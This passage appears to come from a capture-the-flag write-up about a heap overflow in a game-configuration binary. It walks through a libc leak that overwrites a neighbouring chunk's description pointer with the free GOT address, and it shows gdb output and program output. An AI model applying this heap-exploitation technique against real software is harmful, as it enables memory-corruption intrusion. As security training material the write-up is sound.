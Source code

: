 If I can overwrite heap metadata, that’s a place to try to exploit.

### Exploit

#### Libc Leak

Now that I can write out of bounds on the heap, I can turn this into a libc leak fairly easily. Starting clean, I’ll create two configurations (A and B). Then I’ll delete the first one (A). Then I’ll create a new one (C) with sizes so that it takes the space originally used by A. I’ll have C’s description overflow so that it overwrites into the next one (B), overwriting the the pointer to the description with the address of a libc function. Then I’ll use the menu to display B’s config. Instead of displaying the description, it will print the address of the libc function.

I can get a list of functions in `gdb` (run before starting the program or a bunch more junk will be added):

```

gdb-peda$ info functions 
All defined functions:

Non-debugging symbols:
0x00000000004007f0  free@plt
0x0000000000400800  putchar@plt
0x0000000000400810  strncpy@plt
0x0000000000400820  puts@plt
0x0000000000400830  strlen@plt
0x0000000000400840  __stack_chk_fail@plt
0x0000000000400850  setbuf@plt
0x0000000000400860  strchr@plt
0x0000000000400870  printf@plt
0x0000000000400880  read@plt
0x0000000000400890  fgets@plt
0x00000000004008a0  strtol@plt
0x00000000004008b0  malloc@plt
0x00000000004008c0  exit@plt
0x00000000004008d0  sleep@plt

```

I need a function to leak, so I’ll pick `free` arbitrarily (any of these functions would be equally useful to leak). The output above gives the PLT addresses for each function. I need the GOT address (which will point to the function in libc), which I can get by inspecting the first instruction at the PLT address:

```

gdb-peda$ x/i 0x00000000004007f0
   0x4007f0 <free@plt>: jmp    QWORD PTR [rip+0x202782]        # 0x602f78 <free@got.plt>
gdb-peda$ x/xg 0x602f78
0x602f78 <free@got.plt>:        0x00007f0653a1b1d0

```


 [ Game                ]: test
 [ Contrast            ]: 1
 [ Gamma               ]: 2
 [ Resolution X-Axis   ]: 3
 [ Resolution Y-Axis   ]: 4
 [ Controller          ]: 5
 [ Size of Description ]: 10
 [ Description         ]: descript
 [ Config Index    ]: 0
  [ Game                ]: test
  [ Contrast            ]: 1
  [ Gamma               ]: 2
  [ Resolution X-Axis   ]: 3
  [ Resolution Y-Axis   ]: 4
  [ Controller          ]: 5
  [ Description         ]: descript